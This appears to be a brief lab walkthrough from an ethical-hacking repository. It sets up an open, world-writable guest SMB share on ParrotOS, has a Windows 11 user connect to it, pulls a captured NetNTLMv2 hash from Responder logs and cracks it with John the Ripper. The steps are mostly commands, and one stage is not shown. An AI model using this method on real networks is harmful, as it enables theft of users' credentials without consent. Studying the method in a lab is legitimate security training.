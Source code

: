 On the parrotOS

make a folder on your home directory
"SECRETFOLDERSMB"

sudo systemctl start smbd
sudo systemctl start nmbd
sudo systemctl enable smbd
sudo systemctl enable nmbd

sudo chown -R nobody:nogroup /home/parrot/SECRETFOLDERSMB
sudo chmod -R 0777 /home/parrot/SECRETFOLDERSMB
sudo net usershare add SECRETFOLDERSMB /home/parrot/SECRETFOLDERSMB "A secret folder shared via SMB" everyone:F guest_ok=y
net usershare info
(Check if its fine)

ip a 
(172.31.43.83) enp0s5

Win11
run \\172.31.43.83
The user enters it's credentials, and the parrotOS machine captures traffic

ParrotOS
cd /usr/share/responder/logs/

you should see the hash and username

"ec2-user::EC2WIN11:cea98e03389f162a:B975E1277AE96EFB60A29E588B338C39:01010........................"

sudo john SMB-[TAB] and click enter

then you should have the username and password.

![imagem](https://github.com/DanielP33/ethical-hacking/assets/145346859/6d6efdd2-0e45-4a78-8f02-a22c5c57806f)

